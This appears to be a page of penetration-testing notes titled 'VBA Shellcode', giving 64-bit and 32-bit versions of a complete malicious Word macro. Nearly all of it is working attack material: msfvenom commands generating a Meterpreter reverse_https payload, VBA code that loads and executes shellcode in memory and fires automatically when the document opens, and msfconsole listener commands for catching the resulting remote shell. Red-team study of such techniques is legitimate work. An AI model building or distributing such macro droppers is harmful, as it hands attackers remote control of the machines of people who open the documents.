 ```yaml
---
title: VBA Shellcode
layout: default
parent: Client Side Execution
---
```


The theory is always to:
1. Allocate memory with `VirtualAlloc(0, sizeOfShellcodeArray, &H3000, &H40)`
2. Copy shellcode byte by byte into memory location with `RtlMoveMemory(destination, source, length)`
3. Execute with `CreateThread(0, 0, startAddress, 0, 0, 0)`. startAddress here is the return value of `VirtualAlloc()` in step 1.

# For 64-bit!
[32-bit here](#for-32-bit)

First prepare the shellcode:

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=IP LPORT=PORT EXITFUNC=thread -f vbapplication
```

Next in Microsoft Word do this:

* Go to View, Select Macros
* **Very Important** Under Macros In, select the current document name (Document1 if unsaved)
* Name the macro AutoOpen (If you change this you need to change multiple references below)
* Save the document as \*.doc (\*.docx will not run macro)
* Change function name for Excel. For example, Document_Open() is called Workbook_Open() in Excel

```vb
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr

Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Function MyMacro()
  Dim buf As Variant
  Dim addr As LongPtr
  Dim counter As Long
  Dim data As LongPtr
  Dim res As LongPtr
  buf = Array(YOUR ARRAY HERE)
  addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
  For counter = LBound(buf) To UBound(buf)
    data = buf(counter)
    res = RtlMoveMemory(addr + counter, data, 1)
  Next counter
  res = CreateThread(0, 0, addr, 0, 0, 0)
End Function

Sub Document_Open()
MyMacro
End Sub

Sub AutoOpen()
MyMacro
End Sub
```

Prepare for the incoming shell:

```
msfconsole -q
use multi/handler
set payload windows/x64/meterpreter/reverse_https
set lhost IP
set lport PORT
exploit
```

# For 32-bit!
[64-bit here](#for-64-bit)

First prepare the shellcode:

```
msfvenom -p windows/meterpreter/reverse_https LHOST=IP LPORT=PORT EXITFUNC=thread -f vbapplication
```

Next in Microsoft Word do this:

* Go to View, Select Macros
* **Very Important** Under Macros In, select the current document name (Document1 if unsaved)
* Name the macro AutoOpen (If you change this you need to change multiple references below)
* Save the document as \*.doc (\*.docx will not run macro)
* Change function name for Excel. For example, Document_Open() is called Workbook_Open() in Excel

```vb
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr

Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Function MyMacro()
  Dim buf As Variant
  Dim addr As LongPtr
  Dim counter As Long
  Dim data As Long
  Dim res As Long
  buf = Array(YOUR ARRAY HERE)
  addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
  For counter = LBound(buf) To UBound(buf)
    data = buf(counter)
    res = RtlMoveMemory(addr + counter, data, 1)
  Next counter
  res = CreateThread(0, 0, addr, 0, 0, 0)
End Function

Sub Document_Open()
MyMacro
End Sub

Sub AutoOpen()
MyMacro
End Sub
```

Prepare for the incoming shell:

```
msfconsole -q
use multi/handler
set payload windows/meterpreter/reverse_https
set lhost IP
set lport PORT
exploit
```
